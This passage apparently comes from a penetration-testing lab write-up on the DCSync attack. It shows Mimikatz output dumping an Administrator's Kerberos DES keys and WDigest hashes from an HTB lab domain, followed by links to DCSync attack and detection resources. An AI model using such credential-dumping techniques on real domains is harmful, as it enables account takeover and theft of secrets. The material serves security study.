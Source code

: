 ```powershell
    Default Salt : HTB.LOCALAdministrator
    Credentials
      des_cbc_md5       : c1e049c71f57343b
    OldCredentials
      des_cbc_md5       : 977a57459e191a98

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  4bf46b35318e5a5489800a94c48fcad7
    02  64e0f8fd5f1d719ef57bbd3629f06f73
    03  c941843f3eaa0f1428e6dbc0dbdaa8fc
    04  4bf46b35318e5a5489800a94c48fcad7
    05  bde04a27442e93dcffc3cafc918815db
    06  f5052f0ef60d18394ade5b035ed33a65
    07  224411cb45b591747e9b1ea68f3e21c9
    08  c19a3e58e43d04cd2f648e743bcf4e99
    09  6570c5d1d341451ab4e50f6376fdd537
    10  d9e273a5e9f9695ba31eed9994db639b
    11  bf978ab7d4be6babcb0fa4472c2e997e
    12  c19a3e58e43d04cd2f648e743bcf4e99
    13  c021f4b421a3b6705186e1bb4aece4dd
    14  e4b5369f31c3f7b719c32068a158cc45
    15  83f9b26c5fb01baa4c1c53a9ab218b51
    16  9c7f075029c3e8261a39d9426c8f0e46
    17  4b76db2b48008d0fedec9565b512ebfd
    18  7bcf362bae99045ec832752683fa764e
    19  3cfab3d0b85f4f29d743fe468e8fb4d2
    20  bda0fe2c7fdc7ce811d49180f2362d82
    21  26eca18047125d0bc422c90ebb144fd6
    22  87d7d078f9bc7736be4f400d31002010
    23  6782c069d40e5bb74f0ae615edc34a20
    24  652fcb1fe494a86ecafdb48692271d5c
    25  bc4c221fa67b56d72b4f5bc667a0abe2
    26  5a0987ea5cdea42206943400716539df
    27  73fbf3f25ab177cd96aff49153c9fcba
    28  407804bd6d34fb2f5517791b359f3332
    29  685e9e9fcfddcdfb5be4eb35eb17a255


mimikatz(commandline) # exit
Bye!
```

**Resources**

- [*DCSync Attack* - **Viperone GitBook**](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/credential-access/credential-dumping/dcsync/dcsync-attack)
- [Mimikatz DCSync Usage, Exploitation, and Detection - **Active Directory Security**](https://adsecurity.org/?p=1729)
- [*AD Series _ DC Sync Attacks* - **Urshila Ravindran**](https://medium.com/@urshilaravindran/ad-series-dc-sync-attacks-e76bb54308f5)
- [*DCSync* - **Hacktricks**](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
